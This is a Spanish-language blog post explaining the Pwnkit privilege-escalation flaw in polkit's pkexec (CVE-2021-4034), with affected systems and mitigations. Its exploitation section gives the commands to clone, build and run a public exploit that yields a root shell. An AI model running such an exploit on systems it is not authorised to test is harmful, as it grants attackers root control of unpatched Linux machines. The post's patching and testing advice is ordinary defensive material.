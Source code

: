 ```yaml
---
template: post
title:  "Pwnkit: Vulnerabilidad en Polkit (CVE-2021-4034) en 5 minutos"
date: 2022-01-29
tags: polkit exploit linux
author: Ander Granado
---
```


Otro nuevo CVE de los que han dado que hablar. El [CVE-2021-4034](https://nvd.nist.gov/vuln/detail/CVE-2021-4034) salió a la luz hace unos días y se ha esparcido como la pólvora. No es que yo pueda aportar mucho más al tema del que no se haya dicho ya, pero si que puede estar bien hacer un repaso esquemático al CVE y a como explotarlo (que es trivial).

## ¿Qué es polkit?

[Polkit](https://wiki.archlinux.org/title/Polkit) es una herramienta que permite controlar los privilegios en sistemas de tipo Unix. Puede controlar la forma en la que los procesos sin privilegios se comunican con procesos con privilegios.

Esto es util porque hay muchos casos en los que interesa que un proceso interactúe con procesos privilegiados unicamente para determinadas acciones, pero que no pueda hacer otras. En vez de usar algo como sudo (que sería como "abrir todas las puertas y a ver que pasa"), con Polkit se puede controlar en mayor detalle este tipo de operaciones.

## ¿Cuál es la vulnerabilidad?

Polkit tiene una utilidad llamada [pkexec](https://linux.die.net/man/1/pkexec). Esta utilidad permite ejecutar comandos como otro usuario o como root. Esta utilidad tiene una vulnerabilidad, ya que no parsea bien el número de parámetros que recibe y permite ejecutar variables de entorno como comandos (!).

Entonces, según lo que se le pase como variables de entorno, se puede ejecutar código arbitrario. De ahí, se escala privilegios y se consigue permisos de admin, es decir, root.

## ¿Cómo se puede explotar la vulnerabilidad?

Obviamente, ya hay exploits para ello. Para ver lo fácil que es, se puede poner como ejemplo el exploit de [Davide Berardi](https://github.com/berdav/CVE-2021-4034). Ponerlo a prueba es tan sencillo como clonar, compilar, ejecutar y win!

```bash
git clone https://github.com/berdav/CVE-2021-4034
make
./cve-2021-4034
```

Y _voilà_! ahí tenéis la consola con root.

![Polkit exploit](polkit-exploit.png "Polkit exploit")

## ¿Qué sistemas son vulnerables?

Pues diría que prácticamente todos. Aquí no se libra ni el apuntador. Se [ha logrado explotar](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) la vulnerabilidad en instalaciones por defecto de Ubuntu, Debian, Fedora, CentOS y muchas más distribuciones. Al fin y al cabo, teniendo en cuenta que es un componente que se encuentra en prácticamente todas las distribuciones Unix-like.

Lo peor ya no es eso, sino que la vulnerabilidad lleva [más de 12 años](https://gitlab.freedesktop.org/polkit/polkit/-/commit/c8c3d835d24fc4ce5a9c596c7d55d85a0311e8d1) en el código (!). A mi, personalmente, esta es la parte que me asusta de este tipo de vulnerabilidades, las que llevan desde hace mucho pudiendo ser explotadas, por no poder saber hasta que punto se ha podido hacer uso de ella.

## ¿Cómo mitigar la vulnerabilidad?

Todo el mundo se ha puesto las pilas y han lanzado parches para ello, por lo que a estas alturas, con actualizar a través del gestor de paquetes debería ser suficiente para mitigarla.

En el mismo repo del exploit que he mostrado hay una version simplemente para probar si se es vulnerable, que se puede probar de la siguiente manera:

```bash
make dry-run
dry-run/dry-run-cve-2021-4034
```

Otra opción, en caso de que no se pudiera actualizar el sistema, por la razón que fuese (mala idea por cierto, hay que tener siempre actualizados los sistemas), puede ser desactivar el bit SUID de pkexec. Un `chmod` para eliminar el bit para todos:

```bash
chmod ug-s /bin/pkexec
```

De esta manera se impide que el exploit pueda escalar privilegios, aunque puede tener muchas consecuencias imprevistas (como en Half Life :)).

## Conlusiones

A modo de resumen, os dejo unos puntos que me vienen a la cabeza tras ver una vulnerabilidad de este tipo:

- Cuidad vuestras entradas, sobre todo en lenguajes como C y al tratar con elementos a mas bajo nivel.
- Nunca se puede estar completamente seguro. Siempre hay vulnerabilidades que no conocemos pero que pueden ser descubiertas por otros.
- Cuanta más gente este del lado de los buenos, más vulnerabilidades de este tipo se podrán descubrir y con mayor rapidez.
    - Imaginaos las consecuencias de que esto caiga en malas manos (y no solo hablo de cibercriminales ;)).

Así que ya sabéis, a actualizar vuestros sistemas!

Happy hacking!

## ¡Exijo más detalles!

Pues aquí los tienes:

- El [reporte original](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt).
- Artículo en [su blog](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).

_PD_: explicaría en detalle la vulnerabilidad, pero creo que ya esta muy bien explicada en cientos de artículos y videos, y no me voy a creer mejor que ellos. Mi objetivo aquí era simplemente hacer un breve resumen de una vulnerabilidad que me ha parecido interesante.